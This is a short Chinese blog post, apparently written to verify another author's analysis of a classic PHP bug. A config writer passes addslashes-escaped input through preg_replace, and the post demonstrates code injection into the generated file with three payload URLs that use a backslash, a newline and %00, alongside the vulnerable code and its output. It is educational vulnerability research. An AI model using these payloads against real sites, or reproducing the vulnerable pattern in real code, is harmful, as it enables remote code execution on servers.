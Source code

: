 ```yaml
---
layout: post

title: "一个PHP正则相关的“经典漏洞”"
date: 2017-02-28 16:29:56 +0800

categories: php
tags: [php, 正则表达式, 网络安全]
---
```


![example.php]({{ site.url }}/assets/images/201702/28-01.png)

example.php 文件
```php
<?php
$str = addslashes($_GET['option']);
$file = file_get_contents('example_test.php');
$file = preg_replace('|\$option=\'.*\';|',"\$option='$str';", $file);
var_dump($str, $file);
file_put_contents('example_test.php', $file);
```

![example_test.php]({{ site.url }}/assets/images/201702/28-01.png)

example_test.php 文件
```php
<?php
$option='hello';
echo $option;
```

方法一: 利用反斜杠, 输入`\';phpinfo();//`

`http://example.com/example.php?option=\%27;phpinfo();//`

```php
string(17) "\\\';phpinfo();//"
string(50) "<?php

$option='\\';phpinfo();//';

echo $option;
"
```

方法二: 利用正则, 输入`aaa';phpinfo();%0a//`

`http://example.com/example.php?option=aaa%27;phpinfo();%0a//`

```php
string(19) "aaa\';phpinfo();
//"
string(53) "<?php

$option='aaa\';phpinfo();
//';

echo $option;
"
```
方法三: 利用 `%00`

1. 输入`;phpinfo();`, `http://example.com/example.php?option=;phpinfo();`

    ```php
    string(11) ";phpinfo();"
    string(45) "<?php

    $option=';phpinfo();';

    echo $option;
    "
    ```
1. 再次输入`%00`, `http://example.com/example.php?option=%00`

    ```php
    string(2) "\0"
    string(56) "<?php

    $option='$option=';phpinfo();';';

    echo $option;
    "
    ```

> 本文为验证,原文有解析, 略. https://www.cdxy.me/?p=756

---
本文只是针对 [一个PHP正则相关的“经典漏洞”](https://www.cdxy.me/?p=756) 文中的方法进行验证.
